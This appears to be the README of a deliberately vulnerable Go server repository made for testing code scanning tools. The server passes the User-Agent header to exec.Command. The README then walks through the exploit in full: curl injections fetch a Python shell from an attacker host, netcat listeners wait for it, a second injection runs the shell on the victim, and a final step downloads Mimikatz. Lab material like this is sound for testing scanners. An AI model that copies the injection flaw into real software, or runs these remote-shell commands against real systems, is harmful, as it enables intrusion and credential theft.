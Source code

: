 # vulnerable-repo
This is an intentionally vulnerable repo to test code scanning tools with


## Go Server

You can start the golang server by running

```
go run main.go
```

This will start a server on port `:8080`.

Access `http://localhost:8080/` and you will see it print out your client headers!


### Environment Setup

Attacker Docker Image

```
docker run -p 8090:8090 -p 4443:4443 --name attacker -d -it debian:latest
docker exec -it attacker /bin/bash
apt update
apt install ncat
nc -l 8090
```

Server

```
docker build --tag vulnerable-server .
docker run -p 8080:8080 --name server -d -it vulnerable-server
```



### Vulnerability 

You may have noticed when inspecting the code there is a bit of a vulnerability in this server...

For some reason User-Agent is being executed as if it was a command on the server.

```
    ua := r.Header.Get("User-Agent")
    out, err := exec.Command(ua).Output()
```

This means the server is vulnerable to command injection attacks!


### Exploit

You can modify the User Agent string in Chromium browers by opening the developer tools >> more tools >> network conditions.
Then deselect under User Agent "Use Browser Default" and you can now input any string you want into the user agent. 


Also you can run using curl...

#### Install the shell 

```
curl -H "User-Agent: curl http://<attackerip>:4443/shell.py >> /tmp/shell.py" http://<serverip>:8080
```

#### Start the nc listener on the attacker
```
nc -l 4443
```


#### Execute the shell on the victim
```
curl -H "User-Agent: python3 /tmp/shell.py" http://<serverip>:8080
```


#### Mimikatz ?

```
curl -L https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip >> mimi.zip

```
